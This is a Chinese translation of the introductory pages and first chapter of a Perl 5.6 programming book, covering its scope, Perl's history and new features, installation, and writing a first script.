# Perl黑皮书


## 来自科里奥利出版社的一则说明

科里奥利技术出版社成立旨在打造一个非常精英的书籍群体：那些你最常放在手边的书。在现实世界中，你必须非常仔细地选择你每天依赖的书籍，我们理解这一点。

为了让我们出版的书籍在您电脑旁那个令人垂涎的书架上赢得一席之地，我们保证每本书都具备几个重要的品质。这些品质是：

- *技术准确性*——如果它不能工作，那就毫无意义。每本科里奥利技术出版社的书都经过该主题领域技术专家的审阅，并经过多次编辑和校对，以创造您现在手中拿着的这部作品。

- *创新的编辑设计*——我们投入多年的研究和改进，致力于在我们的书籍中呈现信息的方式。我们书籍的编辑方法独特设计，以反映人们学习新技术和寻找技术问题解决方案的方式。

- *实用性*——我们只在书中包含相关信息，避免任何花哨的内容。这两页封皮之间包含的每个事实都必须服务于书籍整体的使命。

- *易用性*——除非您能在需要时快速找到信息，否则书中的信息毫无价值。我们投入大量精力编写索引，并大量交叉引用章节，使您能够轻松直接找到所需信息。

在科里奥利集团，自1989年以来，我们一直致力于出版和包装书籍、技术期刊和培训材料。我们对我们的书籍进行了深思熟虑；请写信至 **ctp@coriolis.com** 让我们知道您的想法。我们希望您对手中这本书感到满意，并且将来，当您需要软件开发和网络信息时，会首先翻阅我们的书之一。

科里奥利技术出版社
The Coriolis Group
14455 N. Hayden Road, Suite 220
Scottsdale, Arizona
85260

电子邮件：ctp@coriolis.com
电话：(480) 483-0192
免费电话：(800) 410-0192

## *寻找科里奥利的这些相关书籍：*

**Perl 核心语言小黑皮书**
*作者：Steven Holzner*

**PHP 黑皮书**
*作者：Peter Moulding*

**C++ 黑皮书**
*作者：Steven Holzner*

## *科里奥利技术出版社还出版：*

**XML 黑皮书，第2版**
*作者：Natanya Pitts*

**Java 2 黑皮书**
*作者：Steven Holzner*

**Kylix 强力解决方案**
*作者：Don Taylor, Jim Mischel, 和 Tim Gentry*

**使用 CVS 的开源开发，第2版**
*作者：Karl Fogel 和 Moshe Bar*

**使用 SVGAlib 的 Linux 图形编程**
*作者：Jay Link*

**Linux 系统管理黑皮书**
*作者：Dee-Ann LeBlanc*

> 献给 Cosmo。感谢你无条件的爱与支持。
—Steven Holzner


## 简介

欢迎阅读 Perl 大全。本书旨在成为一本关于 Perl 的、尽可能全面且易于查阅的著作。事实上，本书的内容覆盖面堪比任何两本同类竞品——而且还额外增加了数百页关于 CGI 互联网脚本编程的内容。光盘上甚至还有三个完整的额外章节。

Perl 不是一种普通的编程语言：它激发了忠诚、热情、赞美和特立独行——更不用说恼怒和挫败感了。它不仅仅是一种编程语言；它是一种事业，是程序员诗人和狂热分子的素材。Perl 有时可能复杂而深奥，甚至可能令人困惑和前后矛盾，但对一个真正的追随者来说，别无选择。你将在阅读本书的过程中理解我的意思。

*实用提取和报告语言*（同样由同一群人戏称为"病态地兼收并蓄的垃圾列表器"）已成为备受青睐的对象。令人瞩目的数量的人投入了难以置信数量的志愿时间来使用、改进和传播它。我在开始写这本书之前很多年就已经开始使用 Perl 了。也许 Perl 的做事方式也会让你变成一个狂热分子。使用 Perl 时那惊人的强大功能真的让人很难不感到兴奋——从面向对象编程到互联网套接字编程，从编写互联网购物车程序到创建 Web 服务器。我们将在本书中涵盖所有这些内容。

## 本书内容

本书旨在为你呈现 Perl 的全貌，尽可能在一本书中涵盖所有内容。你不仅将看到完整的 Perl 语法——从创建简单标量到复杂数据结构，从面向对象编程到使用 C 扩展 Perl——还将看到当今 Perl 所涉及的每一个主要编程领域。事实上，这里的 Perl 内容如此之多，我*无法*将它们全部塞进一本书——光盘上还有三个完整的额外章节：

- 章节 *e*1 内置函数：进程间通信
- 章节 *e*2 调试和编码风格指南
- 章节 *e*3 使用 cgi-lib.pl 进行 CGI 编程

本书涵盖了数百个实际应用主题，例如将 Perl 与数据库连接、与 Windows OLE 自动化服务器连接、与其他进程连接等等。我将涵盖文件处理、套接字编程（让你的程序能够跨互联网通信）、将 Perl 与 XML 和 WML 配合使用、强大的文本处理应用程序、面向对象编程、命名管道、进程间通信、数据加密、信号处理、模块创建、调试、Perl 引用、函数模板、信号处理以及更多主题。而且，每个主题都附有示例，展示它们的具体工作方式。

另一个流行的话题是 Perl 与 Tcl/Tk 的连接，它允许你使用 Perl 显示窗口、按钮、菜单等等，因此这也是本书中的一个主题。你将看到从显示 Tk 按钮、滚动列表和复选框，到让用户处理带有单选按钮和子菜单的复杂级联菜单的所有内容。

Perl 当今受欢迎的最大来源可能是互联网，因此我在本书中包含了大量互联网编程内容——处理 FTP 和 HTTP 协议、Telnet、电子邮件，甚至从 Usenet 新闻组下载帖子。你将看到如何下载和上传网页、解析和创建 XML 文档、从这些页面中提取链接、在不使用 Web 浏览器的情况下向 CGI 脚本提交 HTML 表单、启用在线用户注册、编写 HTTP 用户代理（即 Web 浏览器），甚至编写一个功能完备的 Web 服务器。

Perl 当今流行背后真正的推动力是通用网关接口（CGI）编程——那些让你的网页栩栩如生的互联网脚本，允许你编写能够生成网页的程序。本书包含大量的 CGI 编程——事实上，比我所知的任何一本 CGI 书籍都要多。我将介绍如何在网页中创建和使用几乎所有 HTML 控件——文本字段、文本区域、复选框、滚动列表、单选按钮、密码字段、弹出菜单、隐藏数据字段、提交按钮和重置按钮等等。

你将看到如何创建图像映射和框架、上传文件、调试 CGI 脚本、确保 CGI 安全，以及确定可以向特定浏览器发送哪种类型的图像文件。我们将创建基于图像的网页访问计数器、留言簿、能够发送电子邮件的 CGI 脚本、多用户聊天应用程序、互联网游戏和 Cookie。我们还将实现网站搜索、创建 CGI 购物车等等。本书中的 CGI 脚本可以重定向浏览器；处理基于 Web 的数据库；处理客户端拉取、服务器推送和服务器端包含；返回图像；等等。

本书按独立、易于查阅的主题划分——超过 800 个——每个主题都针对一个独立的编程问题。其中一些主题如下：

- 使用 Perl 5.6.1 语法：使用语句和声明
- 交互式运行 Perl 脚本


## 简介

- 使用文本 I/O
- 创建标量变量
- 使用标量上下文和列表上下文
- 创建数组和哈希
- 使用循环和条件语句
- 使用类型glob和符号表
- 使用 Perl 运算符
- 使用正则表达式和字符串处理
- 创建子程序
- 创建词法作用域变量或持久变量
- 开发递归子程序
- 处理匿名数组、哈希和子程序
- 创建 Perl 引用和符号引用
- 实现持久作用域闭包
- 开发函数模板
- 使用 Perl 特殊变量
- 使用 Perl 内置函数
- 使用 POSIX 函数
- 创建 Perl 格式
- 使用进程间通信
- 加密数据
- 使用 POD
- 创建引用
- 处理文件
- 捕获信号
- 向子进程写入数据并从子进程读取数据
- 将子进程与父进程分离
- 使用双管道程序进行双向通信
- 处理另一个程序的输入、输出和错误
- 清除僵尸进程
- 创建和使用命名管道
- 使用 Win32 OLE 自动化
- 从 Perl 自动化使用 Microsoft Visual Basic 构建的代码组件

xxxi

- 安装模块
- 测试代码执行时间
- 创建安全的代码隔间
- 使用 Tk 为 Perl 添加图形界面
- 创建 Tk 窗口
- 使用 Tk 标签、按钮、文本、单选按钮、复选按钮、列表框、刻度条、输入框、滚动条、菜单和画布部件
- 创建级联菜单、复选按钮菜单、单选按钮菜单、菜单快捷键等
- 创建对话框
- 使用数组的数组、哈希的哈希、哈希的数组和数组的哈希
- 使用链表和环形缓冲区
- 将数据结构存储到磁盘
- 复制数据结构
- 写入和读取数据库文件
- 对数据库进行排序
- 捕获运行时错误（处理异常）
- 调试
- 使用 Perl 风格指南
- 创建包
- 跨文件边界拆分包
- 创建模块
- 从模块中默认导出符号
- 创建嵌套模块
- 在模块中自动加载子程序
- 使用 XS 用 C 语言创建 Perl 扩展
- 开发面向对象编程
- 创建类
- 创建用于初始化对象的构造函数
- 使用类继承
- 支持多重继承
- 将标量、数组和哈希与类绑定
- 使用闭包创建私有数据成员
- 重载一元和二元运算符
- 使用 DOM 或 SAX 解析 XML
- 使用 SOAP
- 从 Web 服务器读写 WML
- 获取 DNS 地址
- 使用 FTP
- 获取网页
- 从新闻组下载帖子
- 接收和发送电子邮件
- 使用 Telnet
- 编写套接字以在 Internet 主机之间进行通信
- 使用套接字对进行进程间通信
- 创建 TCP 客户端和服务器
- 使用多线程创建交互式双向客户端/服务器应用程序
- 创建 Unix 域套接字客户端和套接字服务器
- 创建 UDP 客户端和服务器
- 处理 CGI 编程
- 调试 CGI 脚本
- 了解 CGI 安全
- 从 CGI 脚本返回图像
- 从 CGI 脚本发送电子邮件
- 从 HTML 控件读取数据
- 使用 HTML 文本字段、文本区域、复选框、滚动列表、单选按钮、密码字段、弹出菜单和隐藏数据字段
- 创建提交按钮和重置按钮
- 创建图像映射
- 处理受污染的数据
- 确定浏览器能处理的 MIME 类型
- 创建网页访问计数器
- 创建留言簿
- 创建多用户聊天应用程序
- 了解多用户安全问题
- 清除刷新后的 HTML 控件
- 使用客户端拉取、服务器推送和服务器端包含
- 写入和读取 Cookie
- 在 CGI 脚本调用之间将数据存储在网页中
- 创建 CGI 游戏
- 处理拒绝服务攻击
- 重定向浏览器
- 学习数据库 CGI 编程
- 执行网站搜索——查找匹配的字符串
- 创建 CGI 购物车
- 获取网页中的链接
- 创建镜像站点
- 从代码提交 HTML 表单
- 创建迷你 Web 服务器
- 启用在线用户注册

如你所见，你将学到很多关于 Perl 强大功能的知识。而且，我希望 Perl 所提供的内容对你来说，就像对许多其他程序员一样，同样具有不可抗拒的吸引力。

你应该了解我在本书中使用的两个约定。当我需要指出特定的新代码行时，我会将其突出显示如下：

```
$text = "Hello!\n";
print $text;
```

为了将脚本的输出与脚本本身区分开来，我会用斜体显示输出，如下所示：

```
$text = "Hello!\n";
print $text;
```

*Hello*

## *Black Book* 理念

由经验丰富的专业人士撰写的 Coriolis *Black Book* 系列提供了应对全球编程和管理挑战的即时解决方案，帮助你完成特定任务，尤其是那些其他书籍中未充分文档化的关键任务。*Black Book* 独特的双部分章节结构——全面的技术概览之后紧跟实用的即时解决方案——旨在帮助你运用所学知识、解决问题，并快速掌握复杂的技术问题，从而成为专家。通过将复杂主题分解为易于管理的组件，这种结构可以帮助你快速找到所需内容，并获得实现目标所需的代码。

## 你需要什么

在本书中，我将使用 Perl 5.6.1 版本。如果你运行的版本低于此版本，在运行本书中的代码时可能会遇到一些看似神秘的错误，因此我建议你升级。Perl 是免费的；你只需下载并安装即可。（参见第 1 章中的"获取和安装 Perl"主题。）如果你使用的是多用户系统，Perl 可能已经安装好了；要检查，请在命令行提示符下尝试以下命令以获取 Perl 版本（本书中我将使用 % 作为命令行提示符，因此不要输入它）：

```
%perl -v
```

> 提示：关于运行 Perl 本身，还有两点建议：我建议你使用 -w 命令行开关，这样 Perl 在运行脚本时会根据需要显示警告（Perl 未来可能会将此设为默认值），同时在脚本中添加编译器指令 'use strict'，这样 Perl 会要求声明变量和其他符号。采取这两个步骤可以为你节省大量的调试时间。

你还需要某种创建 Perl 脚本的工具。此类脚本只是填充了 Perl 语句和声明的纯文本文件。要创建 Perl 脚本，你应该使用能够以纯文本格式保存文件的编辑器程序。更多信息请参见第 1 章中的"编写 Perl 脚本"主题。

有一件事你不需要，那就是对 Perl 最初的操作系统 Unix 有深入的了解。虽然许多 Perl 书籍似乎理所当然地认为你是 Unix 程序员，但本书并非如此。Perl 已经超越了 Unix，是时候让 Perl 书籍承认这一事实了。

## 其他资源

其他 Perl 资源可以为 Perl 提供帮助。Perl 附带了大量有用的文档。在 Windows 等系统上，这些文档以链接的 HTML 页面形式存储。在多用户系统上，你通常可以通过系统命令（如 Unix 的 man 命令）访问这些文档。

你也可以在网上找到大量关于 Perl 的网页。随机搜索一下就能找到 3,641,905 个提及 Perl 的页面。你可能想查看以下内容：

- Perl 主页是 **www.perl.com**，你可以在那里找到各种操作系统的源代码和 Perl 移植版本、文档、模块、错误报告以及 Perl 常见问题列表。（FAQ 位于 **www.perl.com/perl/faq** 和 **http://language.perl.com/faq/**。）
- 要获取 Perl、Perl 模块、Perl 扩展以及大量其他 Perl 相关内容，请查看综合 Perl 档案网络 CPAN，地址为 **www.cpan.org**。这个庞大的一站式资源包含几乎所有与 Perl 相关的内容。如果你浏览 CPAN，很可能会看到大量你一定会想要的代码，从 Perl 语言扩展到图像处理，从 Internet 模块到数据库接口。
- Perl Mongers（位于 **www.perl.org**）是一个致力于建立 Perl 用户组的非营利组织。这样的用户组不计其数；请访问 Perl Mongers 网站查看列表。
- **http://use.perl.org** 上的 Use Perl 页面包含大量关于 Perl 动态的信息。
- 还有许多其他与特定 Perl 兴趣相关的网站，如安全、CGI 编程等，如果你想被淹没的话，尽管去搜索吧。

另外，查看这些面向 Perl 程序员的 Usenet 新闻组：

- **comp.lang.perl.announce**，一个低流量的新闻组。
- **comp.lang.perl.misc**，一个高流量的站点，同时也发布 Perl FAQ。
- **comp.lang.perl.modules**，一个专注于创建模块以及重用你自己的或他人代码的新闻组。
- **comp.lang.perl.tk**，一个关于 Perl 与 Tcl 语言 Tk 工具包之间连接的新闻组。Tk 工具包支持许多可视控件，如按钮、菜单等，你可以将它们与 Perl 一起使用，而且它已经相当流行。
- **comp.infosystems.www.authoring.cgi**，虽然名称中没有 Perl，但它是与他人讨论 Perl CGI 编程的好地方。

甚至还有一个专门用于 Perl 的 IRC 频道，以防你需要在线帮助：**#perl**。

欢迎你对本书提供反馈。你可以发邮件到 The Coriolis Group，地址为 **ctp@coriolis.com**。勘误表、更新等信息可在 **www.coriolis.com** 获取。


# 第一章

## Perl 基础

| 如果你需要以下内容的快速解决方案 | 请参考页码 |
| --- | --- |
| 获取与安装 Perl | 8 |
| 获取你的 Perl 安装详情 | 10 |
| 编写代码：创建代码文件 | 11 |
| 编写代码：语句与声明 | 12 |
| 编写代码：查找 Perl 解释器 | 13 |
| 显式查找 Perl | 14 |
| 隐式查找 Perl | 14 |
| 编写代码：查找 Perl 模块 | 17 |
| 运行代码 | 18 |
| 如果你的脚本能找到 Perl | 18 |
| 如果你想从命令行使用 Perl | 19 |
| 运行代码：使用命令行开关 | 21 |
| 运行代码：使用 **-w** 开关进行警告 | 24 |
| 运行代码：使用 **-e** 开关从命令行执行代码 | 25 |
| 运行代码：使用 **-c** 开关检查语法 | 27 |
| 运行代码：交互式执行 | 27 |
| 基础技能：文本输入与输出 | 30 |
| 基础技能：使用 **print** 函数 | 31 |
| 基础技能：文本格式化 | 33 |
| 基础技能：为代码添加注释 | 34 |
| 基础技能：读取类型化输入 | 35 |
| 基础技能：使用默认变量 **$_** | 36 |
| 基础技能：清理类型化输入 | 39 |
| 基础技能：避免在 Windows 中脚本窗口立即关闭 | 40 |
| 基础技能：设计 Perl 程序 | 41 |
| 性能 | 42 |
| 可维护性 | 42 |
| 可扩展性 | 43 |
| 可用性 | 43 |

## 深入探讨

欢迎来到这本 Perl 大全。本书旨在尽可能全面地涵盖 Perl 的方方面面——甚至还有所超越：光盘中包含了三个额外的章节。第一章涵盖了我们在后续章节中将依赖的 Perl 基础技能。在接下来的几章中，我们将看到大量 Perl 语法的实际应用，但除非你能让 Perl 运行起来并用它创建程序，否则那些语法都毫无用处。这套必要的技能——创建和运行 Perl 程序——就是本章的主题。

在本章中，我们将从安装问题到编写 Perl 代码，从确保你的 Perl 程序能在你的机器上找到 Perl 安装位置到显示简单输出，逐步讲解创建 Perl 程序的机制。这些技能是你在接下来的章节中需要的。那些章节的内容都是关于编写 Perl 代码的内部细节；而本章则专注于让代码得以运行的其余流程。

你可能已经了解本章的大部分内容，那样的话，本章将为你提供复习。（其中一些内容必然是新的；例如，凭记忆说出*所有* Perl 命令行开关的作用的人，少之又少。）如果你已经安装了可以正常工作的 Perl，并且能够编写和运行基本的 Perl 程序，那么你对本章大部分内容已经很熟悉了，所以只需快速浏览接下来的几页，然后直接进入第二章即可。

本书旨在成为一本尽可能全面讲述 Perl 的书，涵盖创建和运行 Perl 程序的基础知识是必不可少的信息。

## 关于 Perl 的一切

回顾一下 Perl 的历史是很有启发性的：如果你知道 Perl 是如何成长起来的，你就会明白为什么它（有时出乎意料地）专注于各种编程领域，而在其他方面可能显得薄弱。对于外行来说，Perl 的结构有时可能显得有点杂乱无章（例如，为什么它在处理字符串匹配的正则表达式上投入如此多的精力？）。理清它的历史有助于解开这些谜团。

Perl 诞生于 1986 年，最初是一个用于跟踪网络资源的工具（称为*配置管理器工具*）。需要澄清的是，Perl 是一种解释型语言，最初设计用于扫描文本文件、从这些文件中提取信息，并使用该信息显示基于文本的报告。换句话说，它被构建用于处理、加工和格式化文本。事实上，其名称本身代表“实用摘取和报告语言”（Practical Extraction and Reporting Language），也亲切地被称为“病态地兼收并蓄的垃圾列表器”（Pathologically Eclectic Rubbish Lister），以及许多其他名字，比如“瑞士军刀链锯”（Swiss Army Chainsaw），这指的是你可以用许多不同的方式在 Perl 中做几乎任何事情，而且其中一些方式相当强力。

> **注意：** 你可能会问：为什么是 “Perl” 而不是 “Pearl”？原来，在 Perl 被创建时，已经存在一种名为 Pearl 的图形语言；即便如此，请注意，“实用摘取和报告语言”这个缩写的实际全称，如果包含所有单词，确实是 Pearl。

像 Perl 这样的解释型语言在运行时进行解析和执行，而不是先编译成二进制形式然后再运行（尽管 Perl 编译器正在开发中）。也就是说，你使用名为 perl（注意大小写区别）的 Perl 解释器来运行 Perl 程序。请注意，虽然到目前为止我一直使用通用术语 *程序*，但更准确的说法是将 Perl 代码称为 *脚本*，就像其他解释型语言一样。

使用其他语言，如 C++，你会创建一个二进制可执行文件，然后运行它。使用解释型语言有利有弊；主要优点是它缩短了你在开发/测试周期中投入的时间。你不必每次都通过编译器运行代码来测试它，而是可以使用 Perl 解释器立即运行。另一方面，编译后的程序几乎总是运行得更快，并且不需要在运行它们的机器上安装解释器（你需要在想要运行 Perl 程序的机器上安装 Perl）。然而，如今典型的 Perl 程序通常并不长——通常是几页长的 CGI 脚本或充当*粘合剂*以绑定操作系统 shell 命令的代码——因此执行时间通常不是一个显著因素。

值得注意的是，越来越多的人正在编写更长的 Perl 脚本，因为 Perl 已经发展成为一种跨平台语言，成为一个蓬勃发展的网络社区的中心。Perl 诞生于 Unix，但它已经扩展到几乎所有操作系统，并且在所有平台上都基本相同。因为你不需要创建二进制可执行文件，所以你可以轻松地将脚本移植到所有这些操作系统。事实上，如今再写一本假设所有读者都是 Unix 程序员的严肃 Perl 书籍已经不可能了；尽管许多书犯了这种错误，但那已经是过去的事了。Perl 如今是一种跨平台语言，必须以此方式对待，而不是局限于某一特定操作系统（对 Windows 程序员来说，描述某个东西像 **awk(1)** 或说它的工作方式与 **sed(1)** 一样，能有多大帮助？最好用相关各方都能理解的方式来解释此类事情）。

有些人对 Perl 这种设计为从命令行运行的基于文本的语言，在像 Windows 这样的图形用户界面世界中如此流行感到惊讶。Perl 持续增长的流行基于许多因素。首先，当然是许多操作系统仍然主要面向文本。另一个是 Perl 是一种跨平台语言，在许多不同的操作系统上都得到了非凡程度的支持，仅在平台间存在一些不可避免的差异（例如主机计算机中用于存储长整数的字节数）。

此外，Perl 实际上*已经*通过与流行的 Tk.pm 模块（我们将在第 15 章看到）的接口变得图形化，允许它使用 Tcl 语言 Tk 工具包中流行的图形控件（称为*部件*）。使用 Tk.pm 模块，你可以从 Perl 中显示带有按钮、菜单等的窗口。

然而，就程序员的数量而言，Perl 最近的流行主要是由通用网关接口（CGI）编程推动的，你使用它来执行基于 Web 的客户端/服务器操作。当创建本身就是基于文本的网页时，使用基于文本的语言并不是缺点。Perl 中的 CGI 编程非常强大，相应地，它将是我们要讨论的主要主题之一。

## Perl 5.6 中有什么新内容？

本书的这一版是为 Perl 5.6（具体来说，我将使用 5.6.1 版本）编写的。我将在此处介绍此版本的新功能——如果你是 Perl 新手，其中大部分内容可能不太容易理解，因此可将其视为一个参考部分，需要时再回顾。

如果你以前使用过 Perl，第一个变化相当明显——从 5.6.0 版本开始，Perl 采用了一个新的版本编号系统，并且通常将 Perl 版本以 v 开头来指代，如 v5.6.1，以反映这个新的编号系统。旧版本的 Perl 使用了一个给我们带来像 5.005_03 这样版本的编号系统，但从现在开始，Perl 版本将包含由点（.）分隔的三个数字。你可以使用这个新的编号系统来引用旧版本——例如，版本 5.005_03 与 v5.5.30 相同。

> **注意：** 如果你感兴趣，以下是 Perl 版本的官方术语：v5.6.0 的维护版本发布为 v5.6.1、v5.6.2，以此类推。开发系列将第二位数字加一；v5.6.0 之后的下一个开发版本将是 v5.7.0。v5.6.0 之后的下一个主要生产版本将是 v5.8.0。

如果你已经熟悉 Perl，你知道 Perl 版本存储在预定义变量 **$]** 中。此变量返回一个数字值——对于 Perl 5.6.1，它返回 5.006001——Perl 的创建者认为这还不够，所以他们

以下是Perl 5.6新功能的概览：

- 新的版本编号系统，从版本5.6.0开始。
- 所有内部字符数据现在都是Unicode。（Perl现在对所有文本使用UTF-8。）
- **our**声明与较旧的**my**声明一起用于变量作用域限定；
- 在支持64位的系统上，64位数字支持取代了其他内部数字数据表示。
- 在某些系统上新增了对“长双精度”变量的支持。
- 新的“弱”引用加入了其他引用类型。
- 二进制数字现在首次被支持作为字面量。
- 通过引用调用子程序时省略箭头现在是合法的。
- 布尔赋值运算符现在可以是合法的左值。
- **exists**和**delete**运算符现在可以处理数组元素。
- **binmode**函数现在在DOS平台上接受第二个参数。
- 许多安全功能得到了改进。
- 如果**open**函数传递三个参数而不是两个，第二个参数将用作模式，第三个参数将是文件名。
- 现在可以重写**require**和**do**。
- 有新的内置变量，比如**$^C**和**$^V**。
- 排序现在可以使用带有原型（**$$**）的通用子程序。
- 如果你的Perl版本是特别构建的，现在可以使用**perl_clone**克隆新的Perl解释器版本。
- 有许多新的数据库模块。
- 英文模块有变更，包括**$PERL_VERSION**等变量。

> **注意：** 请记住，本书是为Perl 5.6.1编写的，因此如果你使用的是早期版本，这里能工作的某些东西在你尝试时可能不起作用。如果可能，我敦促你升级到最近的Perl版本。

介绍就到这里。是时候开始创建Perl脚本并了解其过程了。

## **快速解决方案**

## **获取和安装Perl**

大老板给你打来电话——一如既往，是在最后关头。你有20分钟时间编写一个新的应用程序，用于在不同格式之间转换文本文件。你打算怎么办？鉴于Perl处理文件和文本的能力很强，你选择Perl作为完成任务的语言。当然，你必须确保在使用之前已经安装了Perl。

Perl是免费的；你只需下载并安装它。如果你使用的是多用户计算机，可能已经安装了Perl；尝试在命令行输入以下内容（本书中我将使用%作为命令行提示符）：

```
%perl -v
```

这里，我使用了**-v**开关（*开关*是给Perl解释器的命令，以连字符-开头）。如果Perl已安装并在你的路径中，此命令将显示当前的Perl版本和补丁级别。（Perl会定期发布补丁以修复单个错误。）

请注意，在某些系统上，默认的Perl解释器是较早的Perl版本，例如版本4。要在这样的系统上使用Perl 5，你需要使用**perl5**这样的命令（如果**perl -v**显示的是版本5之前的Perl版本，请尝试以下操作）：

```
%perl5 -v
```

如果你没有安装Perl，请前往**www.perl.com**（欧洲用户可能更喜欢欧洲镜像站，如**www.cs.ruu.nl**）或**www.cpan.org**。CPAN是综合Perl归档网络，是一个广泛的资源，你将在本书中更多地了解它。从这些网站，你可以找到并下载所需的一切。

我（故意）不打算介绍在各种操作系统上安装Perl的具体技术。不仅因为这些技术在Perl网站上有非常详细和完善的介绍（例如Unix安装教程在**www.perl.com/CPAN-local/doc/relinfo/INSTALL.html**），而且它们也可能因未来的变化而改变，这些变化不会在本书中体现。（许多书籍因提供详细的安装说明而过时，例如Java语言的——而Java几乎在发布新版本后立即发生了变化。）

截至本书写作时，你可以在**www.perl.com/pub/**上点击“我可以在哪里找到最新版本？”链接来最轻松地获取最新版本的Perl。目前，此链接将你连接到**www.perl.com/pub/language/info/software.html**，为你提供指向最受欢迎的Perl移植版（即针对特定系统的实现）的直接链接，例如ActiveState的Win32版Perl（确保你获得5.005或更高版本，以确保你的Win32版Perl与基于Unix的Perl和Perl模块兼容——早期版本存在一些不兼容性）、名为MacPerl的Macintosh移植版以及众多Unix移植版。Perl支持哪些类型的Unix？以下是简短列表：

- AIX 3, 4
- BSD/386 1
- ConvexOS 10
- DG/UX 5
- Digital Unix/DEC OSF/1 1, 2, 3, 4
- Free/Open/Net BSD
- HPUX 9, 10
- Interactive 3
- IRIX 4, 5, 6
- Linux 1, 2
- MachTen 2, 4
- NextStep 3, 4
- SCO 3
- SunOS 4, 5
- Ultrix 4
- UNICOS 6, 7, 8, 9

Perl支持几乎所有类型的Unix；事实上，据我所知，唯一不支持的Unix类型是非常早期的版本，例如一些资源不足的PDP-11上的版本。

除了**www.perl.com**，你还可以在CPAN上获取任何与Perl相关的东西。CPAN是Perl模块、包、实用程序、移植版等的近乎无尽的来源。要访问CPAN，请前往**www.cpan.org**。如果你导航到**www.perl.com/CPAN/**（此URL中的大小写很重要），可以自动连接到离你最近的CPAN镜像站。如果你省略最后的斜杠——即**www.perl.com/CPAN**——你将看到CPAN镜像站列表，并可以选择一个你想要的。

## 获取你的Perl安装详情

来自公司总部的程序员监督委员会正在巡视你的站点，委员会成员想知道在创建你的Perl版本时应用了哪些编译器开关，以确保它与公司在桑给巴尔的站点一致。你会告诉他们什么？

当你安装了Perl后，可以使用**-V**开关（与**-v**开关不同）获取该安装的详细信息。（MS-DOS和Windows程序员请注意：使用开关时大小写很重要。）使用**-V**开关时，你可能会看到以下类型的详细信息（这里在Windows上用于Perl v5.6.1）：

```
%perl -V
Summary of my perl5 (revision 5 version 6 subversion 1) configuration:
  Platform:
    osname=MSWin32, osvers=4.0, archname=MSWin32-x86-multi-thread
    uname=''
    config_args='undef'
    hint=recommended, useposix=true, d_sigaction=undef
    usethreads=undef use5005threads=undef useithreads=define
    usemultiplicity=define
    useperlio=undef d_sfio=undef uselargefiles=undef usesocks=undef
    use64bitint=undef use64bitall=undef uselongdouble=undef
  Compiler:
    cc='cl', ccflags ='-nologo -O1 -MD -DNDEBUG -DWIN32 -D_CONSOLE
    -DNO_STRICT -DHAVE_DES_FCRYPT  -DPERL_IMPLICIT_CONTEXT
    -DPERL_IMPLICIT_SYS -DPERL_MSVCRT_READFIX',
    optimize='-O1 -MD -DNDEBUG',
    cppflags='-DWIN32'
    ccversion='', gccversion='', gccosandvers=''
    intsize=4, longsize=4, ptrsize=4, doublesize=8, byteorder=1234
    d_longlong=undef, longlongsize=8, d_longdbl=define, longdblsize=10
    ivtype='long', ivsize=4, nvtype='double', nvsize=8, Off_t='off_t',
    lseeksize=4
    alignbytes=8, usemymalloc=n, prototype=define
  Linker and Libraries:
    ld='link', ldflags ='-nologo -nodefaultlib -release
    -libpath:"D:\Perl\lib\CORE"  -machine:x86'
    libpth="C:\Program Files\Microsoft.Net\FrameworkSDK\Lib\"
    "D:\Perl\lib\CORE"

    libs=  oldnames.lib kernel32.lib user32.lib gdi32.lib winspool.lib
    comdlg32.lib advapi32.lib shell32.lib ole32.lib oleaut32.lib
    netapi32.lib uuid.lib wsock32.lib mpr.lib winmm.lib version.lib
```


# 编写代码：创建代码文件

设计团队协调员打电话祝贺你成功安装了 Perl。你优雅地接受了赞誉。“那么，你一直在写哪些脚本呢？”协调员问道。“呃，”你问道，“脚本？”

Perl 脚本本质上就是由 Perl 语句和必要的 Perl 声明组成的纯文本文件。（我们稍后会看到，在 Perl 中你只需要声明格式和子程序。）要创建 Perl 脚本，你需要一个能够将文件保存为纯文本格式的文本编辑器或文字处理器。

将文本保存为纯文本格式是一项简单的任务，但许多花哨的文字处理器却做不到。例如，你使用像 Microsoft Word 这样的文字处理器时可能会遇到麻烦，尽管你可以通过“文件|另存为”对话框将文件保存为纯文本。一般的原则是，如果你能在命令行（注意，在 DOS 和 Windows 系统中就是 DOS）上输入文件内容，且没有看到任何奇怪的非字母数字字符，那么它就是一个纯文本文件。如果 Windows 用户对 WordPad 或 Notepad 这些工具感到顺手，也可以使用它们。在 Unix 系统中，你有许多编辑器可供选择。当然，真正的考验是 Perl 能否读取并解释你的脚本。

请注意，Unix 和 MS-DOS/Windows 文本文件之间的一个主要区别是，Unix 文件每行结尾使用单个字符，而 MS-DOS/Windows 文件使用两个字符（即一个回车符和一个换行符）。这个差异不会困扰 Perl，因此你可以在操作系统之间自由地移动脚本；然而，这个差异可能会困扰你用来编辑这些脚本的编辑器。我们将在本书后面介绍如何使用 Perl 本身在不同格式之间进行转换。

你可以为你的 Perl 代码文件起任何你喜欢的名字；不需要特殊的扩展名。然而，非常流行的 Windows 移植版——Win32 ActiveState Perl——将扩展名 `.pl` 与 Perl 脚本关联起来，这样你只需双击就可以运行它们。事实上，当你三年后回来面对长长的文件列表，想知道它们是什么类型时，文件扩展名可能会很有用。出于这些原因，我们将在本书中使用扩展名 `.pl` 作为脚本的扩展名。请记住，你完全可以不使用该扩展名或任何其他扩展名（包括另一个流行的 Perl 脚本扩展名 `.p`）。本质上，你可以自由地将本书中开发的示例命名为任何你想要的名称。

到目前为止一切顺利。我们已经确定了编辑器或文字处理器的选择。现在，是时候编写一些代码了！

# 编写代码：语句和声明

大老板正在俯视着你的工作。你已经打开了编辑器，正准备用你的 Perl 专业知识给老板留下深刻印象。老板在等待着。你将输入什么？

你能编写的最短合法脚本是什么？如果你不介意你的脚本什么都不做，实际上你可以给 Perl 解释器传递一个长度为零的文件，它不会报错。（注意，这取决于你的 Perl 移植版本，你的操作系统可能不支持零长度文件。）

可能最短的合法 Perl 脚本（尽管它没多大作用）是下面这个：

```
1;
```

这个脚本只是返回一个值 1，你将在 Perl 模块中看到这一行，表示模块加载成功。不过，就独立程序而言，它对于完成任何实际任务都没有多大价值。

一般来说，Perl 代码由语句和声明组成。只有格式和子程序需要声明，尽管你也可以声明其他项目，例如变量，我们将在下一章中介绍。我们将在本书后面再讨论声明。

语句有两种形式：*简单*语句和*复合*语句。简单语句是一个执行特定操作的表达式。在代码中，简单语句以分号（;）结尾，就像下面这个例子，我们使用 **print** 函数来显示字符串 "Hello!"，后面跟着一个换行符 `\n`（关于 `\n` 等字符的更多细节，请参见本章后面的“基本技能：文本格式化”部分），它会跳到下一行：

```
print "Hello!\n";
```

